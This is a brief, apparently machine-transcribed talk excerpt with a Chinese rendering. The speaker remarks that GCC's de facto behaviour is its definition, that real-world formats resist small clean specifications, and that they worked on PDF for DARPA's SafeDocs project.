GCC 应该做什么？答案就是，GCC 现在实际做的事情。现实世界就是这样：人们用很多不同工具来表达自己的意思，很难得到一个小而清晰的定义。我们曾为 DARPA 的 SafeDocs 项目研究 PDF。So, what does What does GCC What does GCC supposed to do? Well, it's what GCC currently does, right? You know. It's, it's, uh, you know, this is like not, you know, the world is just, you know, people just use a lot of tools for like saying what they mean and like it's hard to come up with like small diff definitions. We worked on PDF on the SafeDocs project for DARPA.